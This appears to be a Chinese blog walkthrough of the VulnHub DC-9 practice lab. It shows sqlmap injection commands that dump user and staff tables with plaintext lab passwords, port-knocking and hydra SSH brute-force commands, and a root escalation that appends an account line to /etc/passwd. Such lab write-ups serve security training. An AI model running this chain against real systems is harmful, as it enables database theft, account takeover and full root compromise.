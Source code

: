 ```yaml
---
title: DC-9复现
permalink: /archives/5012/
published: 2022-12-01 16:50:00
tags: 
  - vulnhub
  - 渗透测试
---
```


# DC-9复现

# 描述

> DC-9是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 这个挑战的最终目标是获得根并阅读唯一的标志。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

# 信息收集

确定目标的ip以及开启的端口

![image-20221201165354852](./images/image-20221201165354852.png)

发现有一个完整的表单，那就直接sqlmap爆破数据库

![image-20221201165637107](./images/image-20221201165637107.png)

```bash
sqlmap -u "http://192.168.71.131/results.php"  --data "search=1" --dbs
```

爆出三个库

![image-20221201165842274](./images/image-20221201165842274.png)

爆破表

```bash
sqlmap -u "http://192.168.71.131/results.php"  --data "search=1" -D users --tables
```

![image-20221201170044666](./images/image-20221201170044666.png)

爆破列

```bash
sqlmap -u "http://192.168.71.131/results.php"  --data "search=1" -D users -T UserDetails --dump
```

```mysql
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```

同理爆破另一个库，其中的一个库的**Users**表爆出了admin的密码

![image-20221201170903369](./images/image-20221201170903369.png)

**StaffDetails**表的内容

```mysql
Database: Staff
Table: StaffDetails
[17 entries]
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
| id | email                 | phone          | lastname   | reg_date            | firstname | position                      |
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
| 1  | marym@example.com     | 46478415155456 | Moe        | 2019-05-01 17:32:00 | Mary      | CEO                           |
| 2  | julied@example.com    | 46457131654    | Dooley     | 2019-05-01 17:32:00 | Julie     | Human Resources               |
| 3  | fredf@example.com     | 46415323       | Flintstone | 2019-05-01 17:32:00 | Fred      | Systems Administrator         |
| 4  | barneyr@example.com   | 324643564      | Rubble     | 2019-05-01 17:32:00 | Barney    | Help Desk                     |
| 5  | tomc@example.com      | 802438797      | Cat        | 2019-05-01 17:32:00 | Tom       | Driver                        |
| 6  | jerrym@example.com    | 24342654756    | Mouse      | 2019-05-01 17:32:00 | Jerry     | Stores                        |
| 7  | wilmaf@example.com    | 243457487      | Flintstone | 2019-05-01 17:32:00 | Wilma     | Accounts                      |
| 8  | bettyr@example.com    | 90239724378    | Rubble     | 2019-05-01 17:32:00 | Betty     | Junior Accounts               |
| 9  | chandlerb@example.com | 189024789      | Bing       | 2019-05-01 17:32:00 | Chandler  | President - Sales             |
| 10 | joeyt@example.com     | 232131654      | Tribbiani  | 2019-05-01 17:32:00 | Joey      | Janitor                       |
| 11 | rachelg@example.com   | 823897243978   | Green      | 2019-05-01 17:32:00 | Rachel    | Personal Assistant            |
| 12 | rossg@example.com     | 6549638203     | Geller     | 2019-05-01 17:32:00 | Ross      | Instructor                    |
| 13 | monicag@example.com   | 8092432798     | Geller     | 2019-05-01 17:32:00 | Monica    | Marketing                     |
| 14 | phoebeb@example.com   | 43289079824    | Buffay     | 2019-05-01 17:32:02 | Phoebe    | Assistant Janitor             |
| 15 | scoots@example.com    | 454786464      | McScoots   | 2019-05-01 20:16:33 | Scooter   | Resident Cat                  |
| 16 | janitor@example.com   | 65464646479741 | Trump      | 2019-12-23 03:11:39 | Donald    | Replacement Janitor           |
| 17 | janitor2@example.com  | 47836546413    | Morrison   | 2019-12-24 03:41:04 | Scott     | Assistant Replacement Janitor |
+----+-----------------------+----------------+------------+---------------------+-----------+-------------------------------+
```

# 登录后台

![image-20221201170938946](./images/image-20221201170938946.png)

脚标处有一句`File does not exist `，判断是不是存在本地文件包含漏洞

验证存在

![image-20221201171921652](./images/image-20221201171921652.png)

然后要利用到端口敲门：

原理简单分析：
端口敲门服务，即：knockd服务。该服务通过动态的添加iptables规则来隐藏系统开启的服务，使用自定义的一系列序列号来“敲门”，使系统开启需要访问的服务端口，才能对外访问。不使用时，再使用自定义的序列号来“关门”，将端口关闭，不对外监听。进一步提升了服务和系统的安全性。
　　
简单来说就是：知道它的自定义端口后，依次对其进行敲门，然后就可以开启ssh服务从而进行连接了。它的默认配置文件为：/etc/knockd.conf

![image-20221201172310863](./images/image-20221201172310863.png)

```bash
nmap -p 7469 192.168.71.131
nmap -p 8475 192.168.71.131
nmap -p 9842 192.168.71.131
```

执行完以上命令后再查看22端口的ssh服务，就看到是已经打开了

```bash
nmap -p 22 192.168.71.131
```

![image-20221201172545368](./images/image-20221201172545368.png)

利用前面信息收集到的员工账号密码做一个字典，然后进行爆破

# ssh登录

```bash
hydra -L dc9_users.txt -P dc9_pass.txt 192.168.71.131 ssh
```

![image-20221201173634705](./images/image-20221201173634705.png)

爆破出三个账号密码，随便一个账号登录上去，发现我们现在只是爆破出了部分账户而已

![image-20221201174103178](./images/image-20221201174103178.png)

利用su命令切换我们爆破出的用户，发现在janitor的目录下有一个文件夹里记录了其他用户的密码

![image-20221201174344319](./images/image-20221201174344319.png)

那我们直接加到我们的密码本里，再爆破一次，果然爆出了一个新的

![image-20221201174707763](./images/image-20221201174707763.png)

登录到fredf，发现可以执行`sudo -l`可以看到该账号可以运行root权限的test文件，而且不需要密码

![image-20221201174840644](./images/image-20221201174840644.png)

然后找到了这个文件的源码

![image-20221201175410975](./images/image-20221201175410975.png)

经过查看发现这个py文件的大致内容就是将参数1的内容写入参数2中，接下来尝试进行提权

# 提权

```bash
openssl passwd -1 -salt admin 111111
echo 'admin:$1$admin$2WRLhTGcIMgZ7OhwCpREK1:0:0::/root:/bin/bash' >> /tmp/aaa
sudo /opt/devstuff/dist/test/test /tmp/aaa /etc/passwd
su admin
cd /root
cat theflag.txt 
```

![image-20221201180059726](./images/image-20221201180059726.png)

- [参考博客]([(19条消息) vulnhub靶机DC-9渗透测试_Long_gone的博客-CSDN博客](https://blog.csdn.net/Long_gone/article/details/104049869?ops_request_misc=%7B%22request%5Fid%22%3A%22166988492316782412557232%22%2C%22scm%22%3A%2220140713.130102334..%22%7D&request_id=166988492316782412557232&biz_id=0&spm=1018.2226.3001.4187))